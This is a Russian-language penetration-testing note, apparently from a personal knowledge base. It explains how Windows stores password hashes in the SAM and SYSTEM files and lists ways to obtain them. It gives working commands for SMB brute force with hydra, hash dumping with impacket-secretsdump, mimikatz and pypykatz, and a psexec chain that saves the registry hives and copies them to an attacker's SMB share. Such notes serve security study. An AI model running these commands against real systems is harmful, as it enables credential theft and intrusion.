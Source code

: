 #### Принцип работы:
---
1. Пользователь **вводит пароль**.
2. **Пароль хэшируется** по специальному алгоритму (по одной из версий - MD5_HMAC).
3. Полученный **хэш шифруется** с помощью специального ключа "bootkey" (который хранится в файле `C:\Windows\System32\config\SYSTEM`) и сохраняется в файл `C:\Windows\System32\config\SAM`.
#### Способы обхода:
---
а. Удаленный брутфорс.

```bash title:"Использование hydra"
1. hydra -L users.txt -P passwords.txt 192.168.1.10 smb
```

б. Удаленное получение хэшей паролей из файлов `SAM/SYSTEM`, если известен пароль админа:

```bash title:"А. Использование impacket-secretsdump"
impacket-secretsdump user1:111@192.168.178.13 # - расшифрованные хэши
```

```bash title:"Использование mimikatz"
mimikatz # privilege::debug
mimikatz # sekurlsa::logonPasswords full
```

в. Получение на локальной машине (хэшей паролей):

```bash title:"1. Использование impacket-secretsdump"
impacket-secretsdump -sam SAM -system SYSTEM LOCAL.
```
```bash title:"2. Использование pypikatz с дампом lsass"
pypikatz lsa minidump lsass.dmp # – получение расшифрованных хэшей паролей.
```
```bash title:"3. Использование impacket-smbserver и impacket-psexec"
impacket-smbserver share $(pwd) -smb2support -> 
impacket-psexec DOMAIN/user:pass@ipAddress -> 
echo y| reg save hklm/SAM C:\Windows\Temp -> 
echo y| reg save hklm/SYSTEM C:\Windows\Temp -> 
copy C:\Windows\Temp\SAM \\localIpAddress\share -> 
copy C:\Windows\Temp\SYSTEM \\localIpAddress\share # – получение SAM/SYSTEM через общую папку.
```
4. Модули Metasploit
5. Cain&Abel, SAMInside
6. Различные приложения (например, `impacket`) в сочетании с методом "pass-the-hash".
г. Получение на локальной машине, где требуется найти пароли, с помощью программ:
1. `fgdump.exe` (только локальное применение и только администратор) – расшифрованные хэши паролей.
2. Практически все вышеназванные программы.
д. Сброс пароля с помощью WindowsPE или другой LiveUSB.
\*. Взлом хэшей:
1. hydra
2. john the ripper
